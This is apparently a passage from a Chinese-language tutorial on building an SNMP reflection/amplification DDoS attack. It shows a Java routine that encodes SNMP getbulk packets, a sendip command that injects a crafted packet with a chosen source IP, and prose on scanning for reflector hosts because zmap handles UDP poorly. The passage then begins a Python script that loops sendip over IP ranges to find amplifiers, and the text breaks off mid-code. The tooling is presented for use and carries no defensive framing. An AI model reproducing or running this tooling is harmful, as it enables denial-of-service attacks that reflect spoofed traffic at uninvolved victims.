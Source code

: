 ```
        Communitylen=sumlen(Communityvalues);
        values=versiontag+" "+versionlen+" "+versionvalues+" "+Communitytag+" "+Communitylen+" "+Communityvalues+" "+tmp;
        len=sumlen(values);
        tmp=tag+" "+len+" "+values;
        System.out.println(tmp);
        System.out.println("0x"+qukongge(tmp));
        /*sendip -v -p ipv4 -is 192.168.1.101 -id 192.168.1.102 -p udp -us 8000 -ud 161 192.168.1.102 -d0x302602010104067075626c6963a519020440d32d10020100020164300b300906052b060102010500*/

    }
}

```

注意：getbulk 的循环字段就是对应 snmpbulkget 里面的 –Cr 标识位。

第二为了有一定数量的能进行反射的主机，需要一个给力的扫描器，这里会有人想到用 zmap 来扫描，但是要知道， udp 的扫描可不像 tcp 那种你发请求连接就肯定会有返回连接的，实测有很多 udp 程序只要你发的数据不符合他接收的格式时，他是无任何反应和回复的，就和这个 ip 没开相关端口是一样的效果，snmp 也是符合这种情况的，所以需要自己在扫描指定 ip 的时候发送和正常 snmp 请求的包一样的数据包，来期盼正常的返回，来证明这个 ip 是否可以用来反射攻击。不知道大家住没注意到 zmap 是在不久之前才推出了 snmp 的扫描模块，这个模块我用过，不是太给力。下面是我用 python 写的一个循环调用 sendip 发包的程序，来扫描 ip 段的，里面的 pdu 是用刚才 java 编码程序生成出来的。发出的包用一个自写的 java 程序监听端口，如果有返回信息，就把返回的 ip 地址输出到文件。

python 3.4 版本的

```
import os
import time
from pip.backwardcompat import raw_input

__author__ = 'qwe'

class ipScan(object):
    def __init__(self, begin, end):
        self.begin = begin
        self.end = end

    def traverseIP(self):
        begin_ip = []
        end_ip = []
        begin = self.begin.split(".")
        end = self.end.split(".")

        #print(begin,end)

        for m in begin:
            begin_ip.append(int(m))
        for n in end:
            end_ip.append(int(n))

        a1 = begin_ip[1]
        b1 = end_ip[1]
        a2 = begin_ip[2]
        b2 = end_ip[2]
        a3 = begin_ip[3]
        b3 = end_ip[3]

        print(a1,b1,a2,b2,a3,b3)

        for o in range(a1,b1+1):
            p=1
            q=1
            if(o==a1):
                p=a2
            else:
```